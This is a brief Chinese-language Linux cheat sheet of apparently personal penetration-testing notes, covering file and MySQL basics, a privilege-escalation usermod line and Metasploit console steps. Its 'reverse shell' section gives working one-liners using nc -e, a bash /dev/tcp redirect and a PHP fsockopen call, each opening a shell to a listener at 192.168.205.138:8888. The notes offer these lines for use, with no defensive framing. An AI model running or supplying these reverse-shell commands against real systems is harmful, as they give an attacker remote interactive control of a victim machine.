 # LINUX 常用指令

## 基础指令

```bash
touch 文件名 #创建文件
mysql -u username -p #打开数据库
```

## 反弹shell

```bash
nc -e /bin/sh 192.168.205.138 8888
bash -i >& /dev/tcp/ip/端口 0>&1
python
php -r '$sock=fsockopen("192.168.205.138",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## 提权

```bash
usermod -a -G admin 用户名 #需要root权限
```

## kali工具

```bash
msfconsole
search 关键字
use exploit
set parameter
run
```
